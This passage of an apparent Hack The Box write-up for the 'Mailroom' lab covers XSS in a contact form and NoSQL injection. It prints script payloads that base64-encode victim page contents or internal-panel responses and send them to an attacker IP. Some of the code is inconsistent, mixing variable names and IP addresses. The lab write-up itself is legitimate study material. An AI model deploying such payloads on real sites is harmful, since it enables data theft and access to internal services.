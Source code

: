 There is a XSS in the contact.php `Title` and `Message`

- [http://mailroom.htb/contact.php](http://mailroom.htb/contact.php)

Payload: `<script>alert(1)</script>`

### Read HTML Source Code

INFO: Use PHP Webserver `sudo php -S 0.0.0.0:80`

The idear is, send a XSS to read the HTML code from the victem. 

```jsx
<script>
var http=new XMLHttpRequest(); 
http.open('GET', 'http://10.10.14.56/?xss=' + btoa(document.body.innerHTML), true);
http.send();
</script>
```

We got the source code from the mailroom.htb side, but we the target is the staff-review-panel.mailroom.htb side becuase, its only reachable from the localhost. 

```jsx
var req=new XMLHttpRequest(); 
req.open('GET', 'http://staff-review-panel.mailroom.htb/index.php', true);
http.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
http.onload = function () {
	fetch("http://10.10.14.59/?xss=" + encodeURI(btoa(this.responseText)));
};
http.send(null);
```

Save this js code in the file `pwn.js`

```jsx
<script src="http://10.10.14.56/pwn.js"></script>
```

We got the /index.php from `staff-review-panel.mailroom.htb`

Now we can access the local side over the xss.

## MongoDB SQL Injection

We see the side use a mongodb and is vulnerable to nosql inejction.

```php
// Check if the email and password are correct
$user = $collection->findOne(['email' => $_POST['email'], 'password' => $_POST['password']]);
```

Now try to send a email and password to /auth.php.

Use a new file nosql.js 

```jsx
var http=new XMLHttpRequest();
http.open('POST', 'http://staff-review-panel.mailroom.htb/auth.php', true);
http.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
http.onload = function () {
	fetch("http://10.10.14.56/?xss=" + encodeURI(btoa(this.responseText)));
};
http.send("email=test@example.de&password=abc");
```
